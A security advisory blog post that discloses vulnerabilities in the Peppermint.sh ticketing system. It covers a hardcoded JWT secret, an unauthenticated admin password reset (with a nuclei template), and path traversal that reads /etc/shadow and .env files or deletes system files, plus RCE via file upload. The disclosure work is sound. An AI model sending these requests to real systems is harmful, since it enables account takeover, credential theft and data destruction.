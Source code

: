 ```yaml
---
title: "Peppermint.sh - A damn vulnerable ticketing system"
date: 2023-09-04
draft: false
authors: ["blocki"]
tags: ["advisory"]
description: "Peppermint.sh - A damn vulnerable ticketing system"
---
```


This post contains some of the findings found in the Peppermint.sh ticket application.
All vulnerabilities were tested on the official latest docker version (which is 0.2 at the time of writing).


## Hardcoded Secrets - CVE-2023-42328

The application users `next-auth` with encrypted JWT session cookies.
The *secret* is [hardcoded](https://github.com/Peppermint-Lab/peppermint/blob/446a20b870bc68157eaafcb7275c289d76bfb29e/apps/client/pages/api/auth/%5B...nextauth%5D.js#L65)
which allows any user to encrypt and decrypt the data.
The use of a static secret across multiple instances allows any user to use their session on other instances too.

A decrypted token looks like this:
```json
{"name": "admin", "email": "admin@admin.com", "sub": "1", "user": {"email": "admin@admin.com", "id": 1, "name": "admin", "isAdmin": true}, "iat": 1693732494, "exp": 1996324494, "jti": "d3813576-cce6-4fbd-b496-7b2bb549c941"}
```

The token contains the default admin user data.
Using a session cookie from a local instance allowed to log into any instance, which has the default admin configured.

## Account Takeover
The `/api/v1/users/all` endpoint, lists all available users to unauthenticated visitors.
The data may look like the one below:

```json
{
  "users": [
    {
      "email": "admin@admin.com",
      "name": "admin",
      "id": 1,
      "isAdmin": true
    },
    {
      "email": "test@example.com",
      "name": "testuser",
      "id": 34,
      "isAdmin": false
    }
  ],
  "failed": false
}
```

As shown below, the `id` and `isAdmin` key is included, which
shows us which user is a high privileged user.

The password reset function uses the `id` parameter to specify the user 
of which the password should be changed.

```http
POST /api/v1/users/resetpassword HTTP/1.1
Host: localhost:5000
[...]

{"password":"asdf","id":1}
```

The request above, changes the password of the default admin user.

This can be done using a simple *nuclei* template

```yaml
id: peppermint-unauth-password-reset
info:
  name: Peppermint Unauthenticated Password Reset
  author: unknown
  severity: critical
  description: Reset the admin password without being authenticated
  tags: unsafe,http,peppermint-ticket

http:
  - raw:
    - |
      POST /api/v1/users/resetpassword HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/json

      {"password":"peppermintinsecure", "id":1}

    matchers:
      - type: word
        condition: and
        words:
          - "message"
          - "password updated success"
```

*This bug was reported here: [https://github.com/Peppermint-Lab/peppermint/issues/105](https://github.com/Peppermint-Lab/peppermint/issues/105)*


## Arbitrary File Download
The attachments of a ticket can be downloaded, without authentication. However, the endpoint is also vulnerable to Path Traversal.
This allows any unauthenticated attacker to download arbitrary files from the server.

```http
POST /api/v1/ticket/1/file/download?filepath=/etc/passwd HTTP/1.1
Host: localhost:5000
[...]
```

The response contains the content of the `/etc/passwd` file.
Since the default docker installation runs as root, you can also download the `/etc/shadow` file.

You may also try to download the `.env` file (`filepath=.env`) from the web root. This file contains the database password.

*This issue was reported here: [https://github.com/Peppermint-Lab/peppermint/issues/108](https://github.com/Peppermint-Lab/peppermint/issues/108). it should be noted, that even if the issue was closed, the issue was still reproducable in the latest docker image (date: 2023-09-04).*

## Unauthenticated Arbitrary File Upload and Path Traversal
Any unauthenticated user can create new tickets. In the UI, this endpoint is only accessible after authentication.
However, the request can be done without authentication. A ticket can have attachments but the filename is vulnerable to a Path Traversal.
This allows any unauthenticated attacker to receive a RCE by uploading malicious files to the server.

This also allows stored XSS vulnerabilities, since you can upload SVG or HTML files.

*This bug was reported here: https://github.com/Peppermint-Lab/peppermint/issues/107*

## Arbitrary File Deletion
The API allows any user to delete attachments of tickets. The `path` parameter is vulnerable to a Path Traversal which allows any user to delete arbitrary files from the server.

```http
DELETE /api/v1/ticket/1/file/delete HTTP/1.1
Host: localhost:5000
[...]

{"id":1,"path":"/etc/shadow"}
```

Since the application runs under root by default, it is possible to delete the `/etc/shadow` file.

*This issue was reported here: [https://github.com/Peppermint-Lab/peppermint/issues/106](https://github.com/Peppermint-Lab/peppermint/issues/106). it should be noted, that even if the issue was closed, the issue was still reproducable in the latest docker image (date: 2023-09-04).*
